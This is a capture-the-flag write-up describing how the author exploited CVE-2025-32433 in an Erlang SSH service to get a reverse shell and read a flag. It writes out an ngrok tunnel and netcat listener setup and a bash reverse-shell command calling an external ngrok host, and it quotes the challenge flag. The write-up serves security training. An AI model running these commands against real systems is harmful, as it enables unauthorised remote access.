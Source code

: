 # Compromised Voting Engine - net

## Challenge 

Our online voting engine is heavily locked down, and can only be accessed via SSH by our 5 candidates and vetted officials.

However, we have detected that our system has been compromised!

Discover how the attackers have gained access and you will be rewarded.

note: please do not use brute forcing tools when attempting this challenge

## Solve

Connecting to the port the only message we receive is:

`SSH-2.0-Erlang/5.1.4`

Sending information to the service terminates, and with no other known information or routes, I began to research vulnerabilities in Erlang and found **[cve-2025-32433](https://nvd.nist.gov/vuln/detail/CVE-2025-32433)** - which our version is affected by!

Using the POC found at **[this repository](https://github.com/0xPThree/cve-2025-32433)**  I ran the script to attempt to gain a reverse shell on the target machine.

However, I realised I didn't have a mechanism to faciliate port forwarding, directing the traffic from another public IP to my specific private address. This was a challenge I have run into repeatedly in CTF's as I'm used to getting shells on remote devices on the same network (i.e in THM / HTB VPN environments).

This time, I used `ngrok` to create a temporary domain to forward traffic to my listener port. The setup for the exploit is as such:

1. Set up port forwarding with `ngrok`

```bash
ngrok tcp 444
```

nrokimg

- This created the temporary domain which will receive the traffic from the vulnerable machine and forward it to my local device at port `444`

2. Set up listener 

```bash
nc -lvnp 444
```

- Opens up port `444` to listen for incoming connections

3. Run exploit script, providing reverse shell command:

```bash
bash -i >& /dev/tcp/0.tcp.au.ngrok.io/11641 0>&1
```

exploit.png

We can see that the listener catches the connection initiated by the target machine:

revshell.png

From here we can explore the filesystem and find `flag.txt` in the root directory:

`secedu{CVE-2025-32433_pr3-@uth-I3-bESt!}`

